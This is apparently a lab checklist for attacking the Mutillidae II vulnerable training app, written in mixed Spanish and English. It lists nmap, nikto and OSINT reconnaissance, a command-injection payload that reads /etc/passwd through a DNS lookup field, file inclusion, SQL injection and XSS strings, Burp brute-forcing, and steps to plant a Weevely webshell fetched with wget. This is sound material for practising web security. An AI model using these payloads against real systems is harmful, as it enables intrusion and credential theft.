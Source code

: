 # MUTILLIDAE II

## Gathering Info (recopilación de información)
- [ ] nmap -sS -sV -O -v 192.168.2.148 -n --min-rate 4000 -oA demo
- [ ] nmap -sT -sC -sV -A -oA full-scan -p- 
- [ ] nikto -h 192.168.2.148 -o demo
- [ ] whatweb 192.168.2.148
- [ ] shodan, censys, ipdomain, dnsdumpster, etc.
- [ ] whatsRun, whatWeb, wpscan, cmsmap, etc
- [ ] campish, gophish, etc

- [ ] DOCUMENTAR TODO > 192.168.2.243:8080/dashboard [DefectDojo, PeteReports, Pentest.ws, ...]

## Execute commands
- [ ] 8.8.8.8;ls; [DNS lookup]
- [ ] 8.8.8.8;cat /etc/passwd; [DNSlookup]
- [ ] http://192.168.2.148/mutillidae/index.php?page=/etc/passwd [login]
- [ ] crear webshell en Weevely y subir a pastebin, descarar con wget y modificar nombre para llamarla desde consola [DNSlookup]
## SQLi
- [ ] ' [muestra la query]
- [ ] ramsal' OR 1=1; -- SELECT * FROM accounts;

## XSS
- [ ] <script>alert('BeeHackers was here');</script>

## XSS STORED 
- [ ] This is my post <script>alert("boom")</script> [add post]

## BruteForce Login
- [ ] http://192.168.2.148/mutillidae/index.php?page=login.php [utilizamos el intruder de Burp]
